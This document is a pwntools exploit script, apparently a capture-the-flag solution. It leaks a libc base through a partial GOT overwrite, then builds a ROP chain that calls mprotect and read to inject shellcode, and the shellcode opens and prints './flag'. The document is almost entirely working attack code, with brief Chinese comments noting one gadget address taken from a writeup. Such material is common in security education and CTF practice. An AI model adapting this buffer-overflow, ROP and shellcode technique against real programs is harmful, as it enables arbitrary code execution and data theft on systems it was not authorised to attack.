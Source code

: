 ```python
ret = 0x40101a
close_got = elf.got['close']
write_plt = elf.plt['write']
main_sym = elf.symbols['main']

p.sendafter(b'number :', p64(close_got))
p.sendafter(b'byte :', b'\xc0')

payload = b'a' * 0x18 + p64(ret) + p64(main_sym)

p.send(payload)

p.recvuntil(b'a' * 0x18)
p.recv(0xb8 - 0x18)
real_main = u64(p.recv(6) + b'\x00\x00') - 139
base = real_main - libc.symbols['__libc_start_main']
log.success('real_main: ' + hex(real_main))
log.success('base: ' + hex(base))
# pause()

p.sendafter(b'number :', p64(0x404000 + 0x800))
p.sendafter(b'byte :', b'\x70')

pop_rdi = base + libc.search(asm('pop rdi; ret')).__next__()
pop_rsi = base + libc.search(asm('pop rsi; ret')).__next__()
pop_rax = base + libc.search(asm('pop rax; ret')).__next__()
pop_rdx = base + libc.search(asm('pop rdx; ret')).__next__()
xchg_edx_eax = base + 0x01a7f27 # libc.search不知道为什么search不到，这里直接用的wp中的值

open_ = base + libc.symbols['open']
read_ = base + libc.symbols['read']
mprotect = base + libc.symbols['mprotect']

log.success('pop_rdi: ' + hex(pop_rdi))
log.success('pop_rsi: ' + hex(pop_rsi))
log.success('pop_rax: ' + hex(pop_rax))
log.success('xchg_edx_eax: ' + hex(xchg_edx_eax))
log.success('pop_rdx: ' + hex(pop_rdx))
log.success('open: ' + hex(open_))
log.success('read: ' + hex(read_))
log.success('mprotect: ' + hex(mprotect))

# pause()

payload = b'a' * 0x18
payload += p64(pop_rdi) + p64(base + 0x1000)
payload += p64(pop_rsi) + p64(0x1000)
payload += p64(pop_rax) + p64(7) + p64(xchg_edx_eax)
payload += p64(mprotect)
payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rsi) + p64(base + 0x1000)
payload += p64(pop_rax) + p64(0x1000) + p64(xchg_edx_eax)
payload += p64(read_)
payload += p64(base + 0x1000) # 这里最后还不清楚为什么要加起始位置

p.send(payload)

shellcode = shellcraft.open('./flag', 0, 0)
shellcode += shellcraft.read('rax', base + 0x1800, 0x100)
shellcode += shellcraft.write(2, base + 0x1800, 'rax')

p.send(asm(shellcode))

```